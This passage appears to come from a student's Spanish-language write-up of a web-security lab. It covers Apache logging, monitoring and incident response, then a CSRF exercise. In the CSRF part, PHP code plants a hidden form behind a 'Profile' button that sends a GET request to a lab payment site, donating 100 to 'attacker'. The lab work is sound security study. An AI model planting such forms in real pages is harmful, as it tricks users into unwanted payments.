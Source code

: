 - **Problema:** Sin logs, es difícil detectar y responder a ataques.
- **Solución:** Configurar logs detallados y revisarlos regularmente.
```bash 
ErrorLog /var/log/apache2/error.log
CustomLog /var/log/apache2/access.log combined
```
#### **b) Usar herramientas de monitoreo**

- **Problema:** Sin monitoreo, los ataques pueden pasar desapercibidos.
- **Solución:** Usar herramientas como Nagios, Zabbix o Prometheus para monitorear el servidor.
#### **c) Plan de respuesta ante incidentes**

- **Problema:** Sin un plan, la respuesta a un ataque puede ser lenta e ineficaz.
- **Solución:** Tener un plan documentado para identificar, contener y recuperarse de ataques.
# Parte 5 - CSRF

#### **[A] Editad un jugador para conseguir que, en el listado de jugadores `list\_players.php` aparezca, debajo del nombre de su equipo y antes de `show/add comments` un botón llamado _Profile_ que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.**

He añadido esta parte de codigo donde se muestra que se le añade un botón profile con el link malicioso
```bash
  <?php
            $query = "SELECT playerid, name, team FROM players order by playerId desc";

            $result = $db->query($query) or die("Invalid query");

            while ($row = $result->fetchArray()) {
                echo "
                    <li>
                    <div>
                    <span>Name: " . htmlspecialchars($row['name'], ENT_QUOTES, 'UTF-8')
                 . "</span><span>Team: " . htmlspecialchars($row['team'], ENT_QUOTES, 'UTF-8')
                 . "</span></div>
                    <div>
                    <!-- Formulario malicioso CSRF -->
                    <form action='http://web.pagos/donate.php' method='GET' style='display:inline;'>
                        <input type='hidden' name='amount' value='100'>
                        <input type='hidden' name='receiver' value='attacker'>
                        <input type='submit' value='Profile'>
                    </form>
                    <a href=\"show_comments.php?id=".$row['playerid']."\">(show/add comments)</a> 
                    <a href=\"insert_player.php?id=".$row['playerid']."\">(edit player)</a>
                    </div>
                    </li>\n";
            }
            ?>
```
